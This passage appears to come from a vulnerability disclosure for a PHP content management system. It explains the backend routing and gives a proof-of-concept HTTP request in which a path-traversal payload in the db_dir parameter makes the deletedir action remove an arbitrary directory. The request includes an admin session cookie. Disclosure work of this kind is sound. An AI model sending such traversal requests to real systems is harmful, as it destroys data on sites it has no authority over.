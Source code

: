 ```http
http://127.0.0.1:5678/index.php?case=database&act=backAll&admin_dir=admin&site=default
```

The `case` parameter corresponds to the business logic file located in the `lib/admin` directory (`xxxx_admin.php`).
(In this example, it is `database_admin.php`.)

The `act` parameter corresponds to the `xxxx_action` function within the file specified by `case`.
(In this example, it is the `backAll_action()` method.)

The `admin_dir` parameter points to the backend directory.
(This vulnerability requires backend access.)

The `site` parameter is the default parameter when not explicitly configured.



Therefore, based on this, we can construct the request where `{xxxx}` represents the injection point.

```http
http://127.0.0.1:5678/index.php?case=database&act=deletedir&admin_dir=admin&site=default&db_dir={xxxx}
```



## **POC Construction and Verification**

```php
if(strpos($dir,'databack_') !== false){
            $dir=ROOT.'/data/backup-data/'.$dir;
            front::remove($dir);
            apps::deleteossimg('backup-data/'.$dir);//插件删除
        }
```

In the branch, `$dir=ROOT.'/data/backup-data/'.$dir;`

To avoid damaging the website environment, we create a directory at the same level as `data/backup-data` (which can include substructures) for testing. The following test case uses the directory `111`.

![image-20250129215150855](C:\Users\Rorochan\AppData\Roaming\Typora\typora-user-images\image-20250129215150855.png)



**Constructing the Payload**

```http
GET /index.php?case=database&act=deletedir&admin_dir=admin&site=default&db_dir=databack_2025-01-27-17-17-YTRiYz_7779/.....///.....///11 HTTP/1.1
Host: 192.168.5.6:5678
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=fd4dgj9s9ib24l6jil8uakhijd; login_username=admin; login_password=mvgoWX7V4jltNikmT1BjPZKXQx9tSvwsPkbh9wCe8iBaZ2ab18391e6e61e99aff8e10d05e4ad02
Connection: keep-alive

```
